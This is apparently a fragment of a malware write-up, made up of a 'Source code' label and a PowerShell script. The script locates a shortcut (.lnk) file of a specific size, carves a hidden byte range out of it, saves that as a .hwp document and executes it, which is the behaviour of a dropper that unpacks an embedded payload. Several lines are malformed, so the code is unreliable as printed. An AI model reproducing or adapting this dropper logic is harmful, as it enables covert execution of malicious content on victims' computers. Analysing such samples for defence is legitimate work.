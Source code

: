 $lk=ls -Path '.\' ;
ac -path "C:\Users\user\Downloads" $lk
$lk= Where {$lk.length -eq 56397};
ac -path "C:\Users\user\Downloads" $lk
if($lk -eq $null) {$lk=ls -Path $env:temp -depth 2 | Where {$_.length -eq 56397}};
$n=$lk.name.Replace('.lnk','.hwp');

$lk=$lk.FullName;$file = [System.IO.File]::ReadAllBytes($lk);$file1=[byte[]]$file[5709..(5709+50688-1)];

$fsdf=$lk.Replace('.lnk','.hwp');[System.IO.File]::WriteAllBytes($fsdf,$file1);
&$fsdf;







